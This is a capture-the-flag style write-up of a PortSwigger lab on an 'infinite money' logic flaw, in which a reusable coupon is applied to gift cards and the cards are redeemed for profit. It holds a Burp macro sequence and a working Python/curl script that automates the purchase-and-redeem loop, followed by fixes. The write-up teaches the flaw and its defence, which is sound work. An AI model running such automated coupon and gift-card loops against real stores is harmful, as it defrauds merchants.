



# Lab 10: Infinite Money Logic Flaw

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 10
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Infinite Money via Coupon + Gift Card Redemption Loop

## Vulnerability Summary
The application sells $10 gift cards and offers a 30% newsletter signup discount (`SIGNUP30`). Applying the coupon to a gift card purchase reduces the cost to $7.00. The purchased gift card can then be redeemed for its full $10.00 face value, netting $3.00 profit per cycle. Because neither the coupon nor the gift card redemption has any per-account usage limit, this loop can be repeated indefinitely to accumulate arbitrary store credit and purchase any item for free.

## Attack Methodology

### Step 1: Identify the Loop
- Gift Card (productId=2): **$10.00**
- Newsletter coupon `SIGNUP30`: **-30%** → **-$3.00**
- Net cost per gift card: **$7.00**
- Redemption value: **$10.00**
- **Profit per cycle: +$3.00**

Neither the coupon nor the gift card endpoint enforces a per-user usage limit.

### Step 2: Manual Cycle (Proof of Concept)
1. Add Gift Card to cart
2. Apply coupon `SIGNUP30` → total $7.00
3. Checkout → receive gift card code by email (e.g. `1dE7IABepI`)
4. Redeem code at `POST /gift-card` → +$10.00 credit
5. Net gain: +$3.00. Repeat.

### Step 3: Automate with Burp Intruder + Session Handling Macro

The intended solution uses Burp's macro engine to automate the loop:

**Macro 1** — the buy-and-redeem sequence:
1. `GET /cart` — load cart (get CSRF)
2. `POST /cart` — add gift card (`productId=2&quantity=1`)
3. `POST /cart/coupon` — apply `SIGNUP30`
4. `POST /cart/checkout` — place order
5. `GET /cart/order-confirmation?order-confirmed=true` — confirm order, extract gift card code
6. `POST /gift-card` — redeem extracted code

Configured in **Project settings → Sessions → Session handling rules**:
- Rule scope: Intruder
- Action: Run Macro 1, update parameters from final response

**Intruder attack**: `GET /my-account` with Null payloads, run indefinitely (or until credit ≥ $1337). Each Intruder iteration triggers the macro, executing one full buy→redeem cycle.

Resource pool: **Maximum concurrent requests = 1** to keep gift card codes sequential and avoid redemption race conditions.







### Step 4: Alternative — Scripted Automation
The same loop can be driven directly with curl/Python without Burp:

```python
import subprocess, re, time

BASE = "https://<lab-id>.web-security-academy.net"
EXPLOIT = "https://exploit-<id>.exploit-server.net"
COOKIE = "/tmp/cookies.txt"

def curl(*args):
    return subprocess.run(["curl","-s","-c",COOKIE,"-b",COOKIE]+list(args),
                          capture_output=True, text=True).stdout

def get_csrf(url):
    return re.search(r'name="csrf" value="([^"]+)"', curl(url)).group(1)

def cycle(seen):
    curl(f"{BASE}/cart", "-d", "productId=2&quantity=1&redir=PRODUCT")
    curl(f"{BASE}/cart/coupon", "-d", f"csrf={get_csrf(f'{BASE}/cart')}&coupon=SIGNUP30")
    curl(f"{BASE}/cart/checkout", "-d", f"csrf={get_csrf(f'{BASE}/cart')}")
    curl(f"{BASE}/cart/order-confirmation?order-confirmed=true")
    # Get new code from email
    for _ in range(10):
        time.sleep(2)
        html = subprocess.run(["curl","-s",f"{EXPLOIT}/email"],
                              capture_output=True, text=True).stdout
        codes = re.findall(r'gift card code is:\s*\n\s*\n([A-Za-z0-9]{8,12})', html)
        new = [c for c in codes if c not in seen]
        if new:
            seen.add(new[0])
            curl(f"{BASE}/gift-card", "-d", f"csrf={get_csrf(f'{BASE}/my-account?id=wiener')}&gift-card={new[0]}")
            return
```

413 iterations were needed to go from $106 to $1338 (jacket costs $1337).

## Technical Root Cause

### Vulnerable Implementation (Pseudocode)
```python
def apply_coupon(session, code):
    # No check: has this user used this coupon before?
    discount = lookup_discount(code)
    session['cart_total'] -= discount

def redeem_gift_card(user, code):
    card = GiftCard.get(code)
    # No check: has this card already been redeemed?
    if card and not card.redeemed:
        user.credit += card.value
        card.redeemed = True  # marks redeemed — but a NEW card is issued each purchase
```

Each purchase issues a **new** unredeemed card. The coupon has no per-user redemption counter. The loop is unbounded.

### Secure Implementation (Pseudocode)
```python
def apply_coupon(session, code):
    if db.coupon_used_by(user=session['user'], code=code):
        raise ValidationError("Coupon already used")
    db.record_coupon_use(session['user'], code)
    session['cart_total'] -= lookup_discount(code)
```

## Impact
- **Unlimited Store Credit**: Any amount of credit can be accumulated with no time or rate limit
- **Free Acquisition of Any Item**: The jacket ($1337) was purchased after ~413 automated cycles
- **No Anomaly Detection**: The server accepted hundreds of identical transactions without triggering any limit

**Severity: High**

## Key Takeaways
1. **Coupons Must Have Per-User Redemption Limits**: A discount code that can be applied to the same account repeatedly is not a coupon — it's a money printer. Track usage per user and enforce a maximum (typically 1).
2. **Gift Card + Discount = Arbitrage Risk**: Applying percentage discounts to gift cards creates a direct arbitrage opportunity. Either exclude gift cards from discount eligibility or cap the discount to prevent profit.
3. **Rate Limiting on Financial Transactions**: Hundreds of identical purchase-and-redeem cycles in minutes should trigger anomaly detection or account review.
4. **Automation Amplifies Logic Flaws**: A $3 profit per manual cycle is annoying; the same flaw automated with Burp macros or a script becomes a critical vulnerability.

## Mitigation

### 1. One Coupon Use Per Account
```python
if CouponUse.objects.filter(user=user, coupon=code).exists():
    return error("Coupon already redeemed")
CouponUse.objects.create(user=user, coupon=code)
```

### 2. Exclude Gift Cards from Discounts
```python
DISCOUNT_EXCLUDED_CATEGORIES = {'gift_card'}
for item in cart.items:
    if item.category not in DISCOUNT_EXCLUDED_CATEGORIES:
        apply_discount(item, coupon)
```

### 3. Rate Limit Gift Card Purchases
```python
recent = GiftCardPurchase.objects.filter(user=user, created_at__gte=now()-timedelta(hours=1))
if recent.count() > 5:
    return error("Purchase limit reached. Try again later.")
```

## References
- [PortSwigger — Infinite Money Logic Flaw](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money-object)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [CWE-840: Business Logic Errors](https://cwe.mitre.org/data/definitions/840.html)
- [OWASP — Business Logic Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Business_Logic_Security_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Intruder, Session handling macros)
- Python 3 + curl (scripted automation)
- Chromium

---

*Lab completed on: 2026-05-04*  
*Writeup by vibhxr*
